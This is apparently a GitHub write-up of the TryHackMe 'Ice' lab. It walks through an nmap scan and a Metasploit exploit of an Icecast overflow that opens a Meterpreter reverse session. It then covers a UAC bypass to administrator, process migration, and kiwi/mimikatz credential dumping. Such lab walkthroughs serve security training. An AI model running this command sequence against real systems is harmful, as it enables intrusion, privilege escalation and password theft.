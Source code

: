 # ICE TryHackMe Machine
## 1. Recon
```
nmap -sV <machine ip>
```
![img of port scan](port_scan.png)
we search for vulnerablilites on CVE for the icecast service on port 8000<br>
found vulnerability execute code overflow CVE-2004-1561 <br>
## 2. Exploiting
```
msfconsole
search icecast
use 0
set LHOST <your ip>
set RHOST <victim ip>
run
```
We succesfully pwned the machine and opened a meterpreter connection <br>
![img of pwned machine](pwn.png)
## 3. privilege escalation

```
run post/multi/recon/local_exploit_suggester
```
this script suggested plenty exploits that can be used against this machine <br>
![img of possible exploits](exploits.png)

we used the exploit exploit/windows/local/bypassuac_eventvwr
```
bg
use exploit/windows/local/bypassuac_eventvwr
set LHOST <your ip>
run
```
this spawns a meterpreter session that has administrator privileges <br>
![img of escalated machine](escalate.png)
```
ps
migrate -N spoolsv.exe
```
this migrates our process to a process which has more privileges. <br>
now we load the mimikatz or kiwi module to steal the passwords of the users
```
load kiwi
creds_all
```
this reveals the password of the user "Dark" which is Password01! <br>
![img of stolen credentials](creds.png)

with this we clear the ice room.
